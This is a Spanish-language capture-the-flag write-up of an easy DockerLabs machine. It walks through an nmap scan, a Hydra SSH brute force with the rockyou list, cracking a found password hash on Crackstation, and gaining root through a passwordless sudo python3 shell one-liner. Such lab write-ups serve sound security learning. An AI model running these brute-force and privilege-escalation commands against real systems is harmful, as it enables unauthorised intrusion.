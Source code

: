 ## Write-up 13: Escalada de privilegios básica y hash cracking

**Sitio:** DockerLabs  
**Dificultad:** Fácil  
**Fecha:** 13/06/2025  
**Aprendizaje:**  
* Refuerzo del uso de escalada de privilegios mediante Python.  
* Aplicación de ingeniería inversa sencilla con *hash cracking* usando [Crackstation.net](https://crackstation.net/).  

---

### 1 - Escaneo de puertos y detección de servicios  

`sudo nmap -sSV -O --open 172.17.0.2`  

**Servicios detectados:**

* 22/tcp open → SSH (OpenSSH 9.2p1 Debian)  
* 80/tcp open → HTTP (Apache 2.4.62)  

---

### 2 - Ataque de fuerza bruta con Hydra  

La web revelaba el nombre de usuario `a`, entonces:  

`hydra -l a -P /usr/share/wordlists/rockyou.txt -V ssh://172.17.0.2`  

**Credenciales obtenidas:**

* Usuario: `a`  
* Contraseña: `secret`  

---

### 3 - Búsqueda de binarios con bit SUID

Una vez dentro:  

`find / -perm -4000 -type f 2>/dev/null`  

**Binarios detectados:** Ninguno útil para escalar directamente (su, chfn, mount, etc.).  

---

### 4 - Exploración de archivos relevantes  

Accedo al directorio `/srv/`:  

`cd /srv/`  

**Archivos interesantes:**  

* `hash_spencer.txt`  
* `clave_aes.txt`, `cifrado_aes.enc`    
* `mensaje_rsa.enc`, `clave_privada.pem` y `clave_publica.pem`    
* Entre otros...    

---

### 5 - Crackeo del hash  

Copio el contenido de `hash_spencer.txt` y lo decodifico en [crackstation.net](https://crackstation.net/).  

**Resultado:**  

* Usuario: `spencer`  
* Contraseña: `password1`  

---

### 6 - Escalada de privilegios con Python  

Una vez conectado como `spencer`, ejecuto:  

`sudo -l`  

**Salida:**  

`(ALL) NOPASSWD: /usr/bin/python3`  

Permite ejecutar Python con sudo sin contraseña.

---

### 7 - Obtención de shell como root  

`sudo /usr/bin/python3 -c 'import os; os.system("/bin/bash")'`  

---

### 8 - Confirmación

> whoami = `root`
